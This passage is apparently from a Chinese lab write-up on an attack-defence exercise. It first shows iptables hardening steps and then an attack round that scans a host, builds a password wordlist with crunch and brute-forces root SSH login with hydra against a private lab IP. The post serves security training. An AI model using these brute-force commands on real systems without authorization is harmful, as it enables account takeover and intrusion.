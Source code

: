![](https://i-blog.csdnimg.cn/blog_migrate/27383f2cff3e5f99d72a1772fb73915c.png)

清除防火墙预设规则

![](https://i-blog.csdnimg.cn/blog_migrate/dbede30ddb41e71d357341dd3f26b5fd.png)

设置默认规则，拒绝所有进来的流量

![](https://i-blog.csdnimg.cn/blog_migrate/7d690d245370807b3bd5ee6730d96e84.png)

设置默认规则，拒绝所有转发流量

![](https://i-blog.csdnimg.cn/blog_migrate/09c005d29a242f761d847ab876722dcf.png)

设置默认规则，允许所有出去的流量

![](https://i-blog.csdnimg.cn/blog_migrate/8fff2ca3831f5531f004c794bcb588e9.png)

允许21,22,23,80,3306

![](https://i-blog.csdnimg.cn/blog_migrate/06d4bbccc031df8b11c5a7ba5bbcc2f7.png)

保存防火墙规则

![](https://i-blog.csdnimg.cn/blog_migrate/aa2b6a089639622ed67c2fa108192749.png)

启动防火墙

![](https://i-blog.csdnimg.cn/blog_migrate/1458923ac2b427ab836bb76c1cc4a1e9.png)

查看结果

![](https://i-blog.csdnimg.cn/blog_migrate/07f32b4fb26e21fef442304d4a017782.png)

## 

## ******攻防对抗2******

1. 扫描

![](https://i-blog.csdnimg.cn/blog_migrate/c34566e252b156a3002866c77cf44924.png)

1. 制作字典跑密码

crunch 6 6 -t 0000%%  > /passw

![](https://i-blog.csdnimg.cn/blog_migrate/e5c524e028b820d4dffb7570952d0571.png)

开始破解自己的密码

hydra -l root -P /passw -t 4 ssh://172.16.120.250

![](https://i-blog.csdnimg.cn/blog_migrate/d10a5ca1fe58d955093ad1c609e4c3fc.png)

现在使用putty进去到自己的靶机
